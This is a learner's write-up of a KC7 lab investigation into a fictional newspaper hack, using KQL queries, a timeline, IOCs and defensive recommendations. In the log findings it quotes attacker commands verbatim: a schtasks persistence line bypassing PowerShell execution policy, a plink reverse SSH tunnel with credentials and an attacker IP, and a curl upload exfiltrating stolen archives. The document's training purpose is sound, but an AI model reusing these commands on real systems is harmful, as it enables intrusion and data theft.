








# Module 4: A Scandal in Valdoria: A Political Mystery

> KC7 Security Analyst I path · Difficulty: Beginner · Path completed: October 2026 · Queries replayed on: 2026-10-21/22

## Scenario

On the eve of an election, The Valdorian Times publishes an article accusing political candidate Luffy of corruption, an article the paper's own Editorial Director, Nene Leaks, never approved. The paper hires me as an incident responder to figure out how a fabricated story made it into print: a hack, an insider, or something else entirely.

## Investigation objectives

- Determine who actually sent the final draft to the paper's printer, and whether that person did so willingly.
- Trace the technical chain from initial compromise to the moment the fake article reached print.
- Establish whether this was an isolated incident or part of a broader campaign, and what else the attacker may have taken.

## Approach

This module opens with a short KQL tutorial section (counting employees, basic `where`/`distinct`/`let` practice) that isn't part of the narrative, skipped here in favor of the actual investigation, which starts once Clark Kent, the paper's printer, says he simply printed what Ronnie McLovin, the Editorial Intern, emailed him. Ronnie denies ever sending it.

### Step 1: Rule out the easy explanation
**Hypothesis:** before chasing an attacker, confirm the basic facts: did an email with that exact file really come from Ronnie's account?
**Table used:** `Email`, filtered to Clark Kent's inbox.

Clark had received 21 emails total; one, timestamped `2024-01-31`, came from `ronnie_mclovin@valdoriantimes.news`, subject `URGENT: Final OpEd Draft Edits (Please publish the following article in tomorrow's paper))`, attachment `OpEdFinal_to_print.docx`. Ronnie is adamant she never sent it and suspects her account was used without her knowledge.
**What I conclude / next pivot:** this needs a full technical investigation into Ronnie's account and machine, but first, a staff member hands me a lead pointing somewhere else entirely.

### Step 2: A different employee, a similar story
**Hypothesis:** Senior Editor Sonia Gose mentions a suspicious email from weeks earlier. If the same actor is behind both incidents, her case should show the same playbook.
**Table used:** `Employees` to find her identity, then `Email` filtered to her inbox and the suspicious sender.
```kql
Employees
| where name has "Sonia Gose"

Email
| where recipient == "sonia_gose@valdoriantimes.news"
| where sender has "newspaper_jobs"
```
**Result:** Sonia (`sonia_gose@valdoriantimes.news`, IP `10.10.0.3`, hostname `UL0M-MACHINE`) received an email from `newspaper_jobs@gmail.com` on `2024-01-05T09:42:05Z`: `[EXTERNAL] FW: Invitation to Apply: Lead Political Correspondent`, verdict `CLEAN`, linking to a `.docx` on `promotionrecruit.com`.



**What I conclude / next pivot:** a fake job-offer lure, same shape as a classic spear-phish. Did she click it?

### Step 3: Confirm the click, then follow the payload
**Hypothesis:** if she clicked, the request should appear in outbound traffic from her IP, and a file should show up on her machine shortly after.
**Table used:** `OutboundNetworkEvents`, then `FileCreationEvents`.
```kql
OutboundNetworkEvents
| where src_ip == "10.10.0.3"
| where url contains "promotionrecruit.com"
```
**Result:** she clicked at `2024-01-05T10:23:17Z`, something she didn't even remember doing.



Filtering `FileCreationEvents` to her hostname turns up `C:\ProgramData\hacktivist_manifesto.ps1`, written by `explorer.exe` just 15 seconds after the click.



**What I conclude / next pivot:** a `.ps1` dropped right after a document download is a strong signal of a malicious macro or similar. Time to see what it actually did on the machine.

### Step 4: Persistence and a reverse tunnel
**Hypothesis:** `ProcessEvents` on the same host should show what that script executed.
**Table used:** `ProcessEvents`, filtered to Sonia's hostname (328 rows, searched for `schtasks` and `plink.exe` to isolate the two commands that matter).

A scheduled task was created to keep the script running:



`schtasks /create /sc hourly /mo 5 /tn "Hacktivist Manifesto" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\hacktivist_manifesto.ps1"`: re-running the payload every 5 hours, bypassing PowerShell's execution policy.

And the next day, a reverse SSH tunnel:



`plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 136.130.190.181`: the attacker's username (`$had0w`) and password are sitting right there in the command line, along with their IP.
**What I conclude / next pivot:** full remote access established. But after this, only 5 generic discovery commands (`whoami` and similar) show up: nothing else happens on Sonia's machine. This is a dead end: the attacker had a foothold here but wasn't after Sonia.

### Step 5: The same actor, the real target
**Hypothesis:** if this is a campaign, the same credentials should show up wherever the attacker actually wanted to go, and Ronnie McLovin, whose account sent the fake article, is the obvious candidate.
**Table used:** `Email` (to find the second phishing lure, from `valdorias_best_recruiter@gmail.com`, sent to 18 people including Ronnie) and `ProcessEvents` on Ronnie's machine (`A37A-DESKTOP`).

The exact same chain repeats on Ronnie's machine: phishing click, `.docx` download, `.ps1` drop, scheduled task, but this time from attacker IP `168.57.191.100`. Despite the different IP, the `plink` command uses the **identical username and password** (`$had0w` / `thruthW!llS3tUfree`) seen on Sonia's machine: one operator, two targets.
**What I conclude / next pivot:** this confirms Sonia wasn't the goal: Ronnie, and through her, the printing pipeline, was. Now to find the moment the fake article was actually created.

### Step 6: The smoking gun
**Hypothesis:** if the attacker fabricated the article on Ronnie's compromised machine, there should be a command that creates or renames a file into `OpEdFinal_to_print.docx`, the exact name later emailed to Clark Kent.
**Table used:** `ProcessEvents`, filtered to Ronnie's hostname and searched for the staged filename.
```kql
ProcessEvents
| where hostname == "A37A-DESKTOP"
```
**Result:**



`move C:\Users\romclovin\Downloads\fakestory.docx C:\Users\romclovin\Documents\OpEdFinal_to_print.docx`, executed at `2024-01-31T10:26:20Z`. `fakestory.docx` itself had been downloaded minutes earlier from `https://hire-recruit.org/files/fakescandal/2024/fakestory.docx`. Ronnie has no memory of either the file or the domain.
**What I conclude / next pivot:** this is direct proof the attacker authored the fake story and staged it under the filename Clark Kent would recognize. If my timeline is right, it should have been emailed out shortly after.

### Step 7: Closing the loop
**Hypothesis:** the renamed file should have been sent from Ronnie's account to Clark Kent not long after.
**Table used:** `Email`, filtered to Ronnie as sender and Clark as recipient.
```kql
Email
| where sender == "ronnie_mclovin@valdoriantimes.news"
| where recipient has "clark"
```
**Result:**



Sent at `2024-01-31T11:11:12Z`, **44 minutes** after the rename, subject `URGENT: Final OpEd Draft Edits (...)`, linking to `OpEdFinal_to_print.docx`. This is the exact email Clark Kent printed, believing it came from Ronnie.
**What I conclude:** the full chain is proven: phishing → credential/session compromise → reverse tunnel → fabricated document staged under a trusted filename → sent from the legitimate employee's own account → printed as fact. Ronnie never wrote or sent a word of it.

### Step 8: What else did they take?
**Hypothesis:** an attacker with this level of access likely didn't stop at planting one document: check for signs of data theft.
**Table used:** `ProcessEvents` on Ronnie's machine, searched for archive and transfer utilities.

Three password-protected `.7z` archives were created: `DankMemes.7z`, `MyStolenDataFromDocuments.7z`, `MyStolenDataFromDesktop.7z`, all using the same password as the plink login (`thruthW!llS3tUfree`). Then:



`curl -F "file=@C:\Users\romclovin\Documents\*.7z" https://hirejob.com/exfil_processor/upload.php`: a direct upload to an attacker-controlled site. A follow-up check across every Valdorian Times device confirmed no other machine exfiltrated data to `hirejob.com`, so this appears contained to Ronnie's machine.

## Attack timeline

| Date/time (UTC) | Event | Source (table) |
|---|---|---|
| 2024-01-05 09:42:05 | Phishing email ("Lead Political Correspondent") sent to Sonia Gose | Email |
| 2024-01-05 10:23:17 | Sonia clicks the link | OutboundNetworkEvents |
| 2024-01-05 10:24:32 | `hacktivist_manifesto.ps1` dropped on Sonia's machine | FileCreationEvents |
| 2024-01-05 11:22:44 | Scheduled task created for persistence on Sonia's machine | ProcessEvents |
| 2024-01-06 02:39:35 | Attacker opens a `plink` reverse tunnel to Sonia's machine (`$had0w`) | ProcessEvents |
| 2024-01-10 08:48:16 | Second phishing email ("We're Hiring!") sent to Ronnie McLovin | Email |
| 2024-01-10 08:55:07 – 08:55:51 | Ronnie clicks, `.docx` and `.ps1` land on her machine | OutboundNetworkEvents / FileCreationEvents |
| 2024-01-31 09:47:51 | `fakestory.docx` downloaded to Ronnie's machine | FileCreationEvents |
| 2024-01-31 10:26:20 | Attacker renames it to `OpEdFinal_to_print.docx` | ProcessEvents |
| 2024-01-31 11:11:12 | Fabricated article emailed from Ronnie's account to Clark Kent | Email |
| 2024-02-01 02:14:32 | Stolen `.7z` archives exfiltrated via `curl` to `hirejob.com` | ProcessEvents |

## Indicators of Compromise (IOC)

| Type | Value | Context |
|---|---|---|
| IP | `136.130.190.181` | Attacker `plink` source IP on Sonia's machine |
| IP | `168.57.191.100` | Attacker `plink` source IP on Ronnie's machine |
| Domain | `promotionrecruit.com` / `promotionrecruit.org` | Phishing lure domains ("job offer" docs) |
| Domain | `hire-recruit.org` | Hosted the fabricated `fakestory.docx` |
| Domain | `hirejob.com` | Exfiltration destination |
| Email sender | `newspaper_jobs@gmail.com` | Phishing sender targeting Sonia |
| Email sender | `valdorias_best_recruiter@gmail.com` | Phishing sender targeting Ronnie (and 17 others) |
| Credentials | `$had0w` / `thruthW!llS3tUfree` | Reused across both intrusions and the exfiltration archive password; ties both incidents to one actor |
| File | `hacktivist_manifesto.ps1` | Dropper/persistence script |
| File | `OpEdFinal_to_print.docx` | Fabricated article, staged under a trusted filename |

## MITRE ATT&CK mapping

| Tactic | Technique (ID) | Observation |
|---|---|---|
| Initial Access | Phishing: Spearphishing Link (T1566.002) | Fake job-offer emails to two employees, both marked `CLEAN` |
| Execution | Command and Scripting Interpreter: PowerShell (T1059.001) | `hacktivist_manifesto.ps1` run with `-ExecutionPolicy Bypass` |
| Persistence | Scheduled Task (T1053.005) | `schtasks` re-running the payload every 5 hours |
| Command and Control | Protocol Tunneling (T1572) | `plink` reverse SSH tunnel back to the attacker |
| Discovery | System Owner/User Discovery (T1033) | `whoami` and 4 other discovery commands on Sonia's machine |
| Defense Evasion / Impersonation | Valid Accounts (T1078) | Fabricated article sent from Ronnie's own, compromised email account |
| Collection | Archive Collected Data (T1560.001) | Three password-protected `.7z` archives staged before exfiltration |
| Exfiltration | Exfiltration Over Web Service (T1567) | `curl` upload to a custom endpoint on `hirejob.com` |

*(Mapping is approximate, built for learning purposes, not a formal incident report.)*

## Defensive recommendations

- Flag and block `.ps1` files dropped immediately after a document download from an external link: this pattern alone would have caught both intrusions within seconds.
- Alert on scheduled tasks created via `schtasks.exe` with `-ExecutionPolicy Bypass`, especially when the parent process is `cmd.exe` spawned from a browser or Office process chain.
- Monitor for `plink.exe` / SSH tunneling tools entirely: they have no legitimate business use on standard editorial workstations and are a near-certain sign of a reverse tunnel.
- Credential and password reuse by the attacker across machines and archives was what let this investigation tie two "separate" incidents to one actor; the same discipline (never reuse secrets) applies defensively: rotate and monitor for reused attacker infrastructure the same way.
- Treat any internal email carrying an unexpected high-urgency request ("URGENT: publish this tomorrow") as a BEC indicator worth a human verification step, regardless of whether it technically came from the right mailbox.

## What I learned

- A technically identical attack on two different victims doesn't mean two incidents: reused credentials, infrastructure, or TTPs are what let you prove it's one actor and redirect the investigation toward the real target.
- Investigating a "dead end" (Sonia's machine) wasn't wasted effort: it established the attacker's exact toolkit and credentials, which is precisely what made recognizing the real intrusion (Ronnie's machine) fast and confident.
- `ProcessEvents.process_commandline` is where the real story lives in an EDR-style dataset: `schtasks`, `plink`, `move`, and `curl` command lines each told a distinct part of the story, often including credentials in plaintext.
- Correlating a file-system action (the rename) with a business action (the email, 44 minutes later) is what turns a pile of technical artifacts into a provable narrative: timestamps are evidence, not just metadata.

## References

- KC7 Security Analyst I path: *A Scandal in Valdoria: A Political Mystery* (https://kc7cyber.com/dashboard/paths/security-analyst-i)
